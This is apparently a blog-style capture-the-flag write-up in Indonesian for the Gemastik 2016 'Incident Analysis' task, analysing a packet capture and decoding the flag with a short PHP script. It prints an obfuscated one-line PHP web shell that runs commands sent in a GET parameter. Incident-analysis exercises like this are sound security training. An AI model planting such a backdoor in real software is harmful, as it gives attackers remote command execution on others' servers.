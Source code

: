 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : Incident Analysis - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: CTF
tags: [gemastik,Web Exploitation]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Incident Analysis](/images/incident-analysis.png)

### Solusi :

dalam pcapng yang diberikan kami menemukan potongan code php yang cukup menarik perhatian kami yaitu 
`<?php system(gzuncompress(base64_decode(\$_GET['id']))); ?>`
Ini gunanya untuk mengakses command ke system() dengan memberikan input base64 dengan request GET ke ?id= sehingga memungkinkan 
attacker untuk melakukan **command injection**

Kemudian kami mencoba melakukan beberapa decode sehingga menemukan flag di string ini
`eJxLTc7IV3B39XUMDvH0ri4yNsmJzzMuiU9Myc3Mi09OzItPzEvMqaxKjU8sKUlMzo5PK8rPjU8pzS2oVbBT0C/JLdBPT81NLC7JzNYrqSgBAGIlHSE=`

```php
<?php
    $string='eJxLTc7IV3B39XUMDvH0ri4yNsmJzzMuiU9Myc3Mi09OzItPzEvMqaxKjU8sKUlMzo5PK8rPjU8pzS2oVbBT0C/JLdBPT81NLC7JzNYrqSgBAGIlHSE=';
    $a = base64_decode($string);
    $b = gzuncompress($a);
    echo $b;
?>
```

![incident analysis flag](/images/incident-analysis-flag.png)
